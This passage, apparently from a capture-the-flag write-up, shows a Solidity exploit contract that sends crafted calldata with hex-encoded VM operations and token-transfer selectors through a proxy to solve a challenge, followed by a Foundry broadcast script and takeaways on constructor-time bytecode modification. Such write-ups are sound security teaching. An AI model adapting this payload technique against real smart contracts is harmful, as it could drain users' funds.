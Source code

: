```solidity
   function pwn() external payable {
       (bool success,) = address(proxy).call{gas: 100000, value: 0x02D4}("");
       require(success, "Call failed1");
   }

   fallback() external payable {
        bytes memory data = abi.encodeWithSignature(
           "play(string)",
           "answer"
        );

        bytes memory payload = bytes.concat(
           data,
           hex"00000000000000000000000000000000000000000000000000000000",
           hex"11020080",
           hex"11020000",
           hex"11020000",
           hex"1114", abi.encodePacked(address(PLAYER)),
           hex"33", hex"23b872dd000000000000000000000000769f3e5057b43b0d511065ed74df982e",
           hex"33", hex"9134da9c000000000000000000000000d2d86433d89c204bf5f2451bbc98175a",
           hex"33", hex"1fc4cd6900000000000000000000000000000000000000000000000000000000",
           hex"33", hex"00000001fffffff1000000010000000100000001000000010000000100000001",
           hex"22"
        );

        (bool success,) = address(target).call{gas: 100000, value: 0x02D4}(payload);
        require(success, "Call failed2");
   }
}

contract CounterScript is Script {
    function run() public {
        vm.startBroadcast(privateKey);
        chal.solve();
        vm.stopBroadcast();
    }
}
```

#### Key Takeaways

1. Constructor-time code modification can lead to unexpected contract behavior
2. Bytecode analysis is crucial for understanding actual contract implementation
3. Size-restricted contract calls can be handled through proxy patterns
4. Complex VM operations can be encoded in calldata for execution

This challenge demonstrates how constructor-time bytecode modification can create contracts that behave differently than their source code suggests, requiring careful bytecode analysis and creative exploitation techniques.


